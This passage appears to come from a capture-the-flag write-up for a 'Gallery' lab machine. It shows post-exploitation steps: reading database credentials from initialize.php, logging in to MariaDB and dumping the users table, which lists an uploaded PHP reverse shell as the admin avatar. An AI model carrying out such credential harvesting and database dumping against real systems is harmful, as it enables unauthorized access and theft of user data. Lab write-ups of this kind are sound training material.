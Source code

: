 ```
```
However, it **only readable by mike.**

Then, I discovered a initialize.php file at `/var/www/html/gallery`, which contains MySQL user credentials.
```
(remote) www-data@gallery:/var/www/html/gallery$ cat initialize.php 
<?php
$dev_data = array('id'=>'-1','firstname'=>'---redacted---','lastname'=>'','username'=>'---redacted---','password'=>'---redacted---','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"---redacted---");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"---redacted---");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
``` 
Using that credential to login into MySQL.
```
(remote) www-data@gallery:/var/www/html/gallery$ mysql -u [redacted] -p gallery_db
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 365
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [gallery_db]> 
```
Find all the tables inside gallery_db database.
```
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)
```
The `users` tables looks kinda sussy, let's check that out.
```
MariaDB [gallery_db]> SELECT * FROM users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | ---redacted---                   | uploads/1651054320_php-reverse-shell.php | NULL       |    1 | 2021-01-20 14:02:37 | 2022-04-27 10:12:42 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```
